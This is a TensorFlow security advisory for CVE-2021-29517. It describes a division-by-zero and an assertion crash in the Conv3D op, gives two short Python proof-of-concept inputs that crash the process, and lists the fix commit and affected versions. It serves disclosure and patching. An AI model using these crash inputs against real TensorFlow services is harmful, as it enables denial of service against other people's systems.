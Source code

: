## TFSA-2021-006: Division by zero in `Conv3D`

### CVE Number
CVE-2021-29517

### Impact
A malicious user could trigger a division by 0 in `Conv3D` implementation:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3D(input=input_tensor, filter=filter_tensor, strides=[1, 56, 56, 56, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 23, 1])
```

The [implementation](https://github.com/tensorflow/tensorflow/blob/42033603003965bffac51ae171b51801565e002d/tensorflow/core/kernels/conv_ops_3d.cc#L143-L145) does a modulo operation based on user controlled input:

```cc
  const int64 out_depth = filter.dim_size(4);
  OP_REQUIRES(context, in_depth % filter_depth == 0, ...);
```

Thus, when `filter` has a 0 as the fifth element, this results in a division by 0.

Additionally, if the shape of the two tensors is not valid, an Eigen assertion
can be triggered, resulting in a program crash:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[2, 2, 2, 2, 0], dtype=tf.float32)
filter_tensor = tf.constant([], shape=[0, 0, 2, 6, 2], dtype=tf.float32)

tf.raw_ops.Conv3D(input=input_tensor, filter=filter_tensor, strides=[1, 56, 39, 34, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

The shape of the two tensors must follow the constraints specified in the [op
description](https://www.tensorflow.org/api_docs/python/tf/raw_ops/Conv3D).

### Patches
We have patched the issue in GitHub commit
[799f835a3dfa00a4d852defa29b15841eea9d64f](https://github.com/tensorflow/tensorflow/commit/799f835a3dfa00a4d852defa29b15841eea9d64f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
